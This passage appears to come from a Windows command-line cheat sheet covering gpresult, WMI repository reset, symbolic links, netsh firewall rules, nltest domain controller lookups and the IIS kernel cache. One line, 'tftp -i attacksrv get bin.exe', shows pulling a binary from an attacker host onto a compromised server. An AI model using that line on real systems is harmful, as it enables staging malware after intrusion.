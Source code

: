 ```
C:\> gpresult /z /h outputfile.html
```

### Reset the WMI repository to what it was when the OS was installed

**Very helpful if you have a corrupt repo**

```
C:\> winmgmt /resetrepository
```

### Create symbolic links in Windows Vista, 7 & higher

```
C:\> mklink <link> <target>
C:\> mklink D:\newlink.txt E:\thisexists.txt
```
### Enable the tftp client in Vista & higher

```
C:\> ocsetup TFTP /quiet
```
Pull files to a `compromised server`:

```
C:\> tftp -i attacksrv get bin.exe
```

### Obtain list of firewall rules on a local system

```
C:\> netsh advfi fi sh rule name=all
```
**Can be combined with wmic for remote systems**

### Get name of current domain controller

```
C:\> set log
C:\> nltest /dcname:DOMAIN
```

Get list of all DCs:

```
C:\> nltest /dclist:DOMAIN
```
### Look at content cached in kernel mode on IIS 7 and higher

```
C:\> netsh http sh ca
```
**Useful when investigating the `MS15-034` HTTP.sys vuln**
